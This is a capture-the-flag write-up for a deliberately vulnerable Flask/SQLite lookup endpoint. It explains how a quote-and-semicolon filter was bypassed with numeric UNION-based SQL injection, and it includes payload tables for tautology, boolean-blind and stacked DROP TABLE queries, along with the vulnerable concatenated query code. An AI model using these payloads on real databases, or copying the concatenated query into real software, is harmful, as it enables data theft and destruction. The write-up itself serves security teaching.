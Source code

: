 # SQLi_Filtered – Personalised Write‑up

**Category:** Web – 150 pts
**Flag:** `flag{sqli_filtered}`

---

## Challenge Flow

1. The application only has a single point of GET /lookup?uid=<value>
2. Using `1` returns `User name: alice`, confirming there is a `users` table
3. By using all types of regex and the basic tests you see that the code blocks the quotes and semicolons, meaning that it must be Numeric SQL, this means the payload must be something like 0 UNION SELECT 1-- without quotes and semicolons
4. using 0 UNION SELECT sql FROM sqlite_master--, I can reveal that there is a table called very_secret
5. From here I can find the flag using 0 UNION SELECT flag FROM very_secret--
6. This reveals the flag of flag{sqli_filtered}


---


## How Difficulty Was Increased and Defence Mechanisms

I increased the difficulty by prohibiting the use of '," and ; through using a numeric solution when the normally, the solutions are string-based. I further used Generic error messages that would force blind experimentation instead of having the given error messages. I also recompiled the regex after each request to make a new compilation that would slightly obfuscates the code path. I implemented Quote and Semicolon to block ' OR 1=1-- and other similar classic solves. 


---

## Build and Solution Notes (How The Task Was Made and How A solution can be found)


This CTF challenge is a tiny flask web app that usese SQLite. It exposes one endpoint which is the GET /lookup?uid=<value> that looks up a user's name by uid and prints it. 
This task initially creates an sqlite file next to the script as a .db and it makes a flag of "flag{sqli_filtered}". It then creates 2 tables of users as users(uid, name) pre‑seeded with A/B/C and a very_secret(flag) containing the flag. At the lookup endpoint, the code gets a uid from the query string and blocks quotes and semicolons (returns HTTP 400) to stop obvious SQL payloads. The reason why SQL injections can appear for this task is because of the line 
```python
    query = "SELECT name FROM users WHERE uid = " + uid
    query = "SELECT name FROM users WHERE uid = ?", (int(uid),)
```
compared to the much safer version listed below it. This allows for sql injections as this task in particular is an integer-based in-band union based SQL injection, playing off the classic UNION-based sqli with a numeric filter that exludes string literals. This filter increases the difficulty by narrowing the attack surface and forcing knowledge of SQLite's schema and ordering tricks and column cardinality. I also limited the use of error checking in this test where the use of "return "SQL error", 400" as a result of regexing with certain commands that are used to usually test sql injections. 
To demonstrate this, here is a list of the common sql attacks and how they fail 

| Attack style                      | With Filter      | Without Filter  | Example payload | What happens/ why|
| - | - | - | - | - |
| **Tautology** | **Yes**, but only numeric form | **Yes** | `1 OR 1=1--` | WHERE becomes `uid = 1 OR 1=1` → many rows; app prints first (likel “A”). |
| **String‑based tautology**        | **No** (needs quotes)                        | **Trivial**                         | `0 OR 'a'='a'--`                                                                                                                                         | Quotes make it easy to force TRUE; blocked in filtered version.                                                  |
| **UNION‑based (1 column)**        | **Yes** (numeric/quote‑less UNION)           | **Trivial**                         | `0 UNION SELECT flag FROM very_secret--`                                                                                                                 | Column count = 1 matches `name`; returns the flag.                                                               |
| **UNION + targeted schema query** | **Harder** (no quotes for predicates)        | **Easy**                            | `0 UNION SELECT sql FROM sqlite_master WHERE name='very_secret'--`                                                                                       | With quotes: directly filter to the target table; without quotes it’s simpler.                                   |
| **Boolean‑based blind**           | **Possible** (use functions, no quotes)      | **Easier** (use quoted chars/LIKE)  | With filter: `1 AND substr((SELECT flag FROM very_secret),1,1)=char(102)--`  \| Without filter: `1 AND substr((SELECT flag FROM very_secret),1,1)='f'--` | You infer TRUE/FALSE by response difference (`User name: …` vs `Len=0`).                                         |
| **Error‑based**                   | **Weak** (generic “SQL error” hides details) | **Still weak** (same masking)       | `1'`  (causes syntax error)                                                                                                                              | App returns just “SQL error”, so you can’t read DB error text either way.                                        |
| **Time‑based blind**              | **Not practical on SQLite**                  | **Not practical on SQLite**         | (SQLite lacks `SLEEP()`)                                                                                                                                 | SQLite doesn’t have a native sleep; timing tricks are unreliable.                                                |
| **Stacked queries (`; DROP …`)**  | **Blocked** by filter                        | **Usually still blocked by driver** | `1; DROP TABLE users--`                                                                                                                                  | Python’s `sqlite3.execute()` only allows one statement; stacked won’t run unless the app used `executescript()`. |









/lookup?uid=0 UNION SELECT 1--

Read schema to find hidden tables:
/lookup?uid=0 UNION SELECT sql FROM sqlite_master--

Exfiltrate the flag:
/lookup?uid=0 UNION SELECT flag FROM very_secret--

Why it works: the base query returns one column (name), so a UNION SELECT <one column> fits; keywords (UNION, SELECT) and comments (--) don’t need quotes.


FLAG insert

cur.execute(f"INSERT INTO very_secret VALUES ('{FLAG}')") will break if FLAG contains a ' (single quote). It’s wrapped in try/except, so it silently fails. Use parameters instead.

Regex per request

Compiling the regex on every request is harmless but unnecessary overhead.












## Related & Future Variants
- Blind‑SQLi via time‑based or Boolean‑based techniques when direct feedback is suppressed
- Second‑Order SQLi where inputs are stored in one context and later executed in a different query
- Out‑of‑band SQLi leveraging DNS/HTTP exfiltration to leak data when in‑band channels are filtered

---

### Sources

* **PentesterLab – SQL Injection** https://pentesterlab.com
* **PayloadsAllTheThings – SQLi** https://github.com/swisskyrepo/PayloadsAllTheThings
* **SQLite Docs** https://www.sqlite.org/lang_select.html
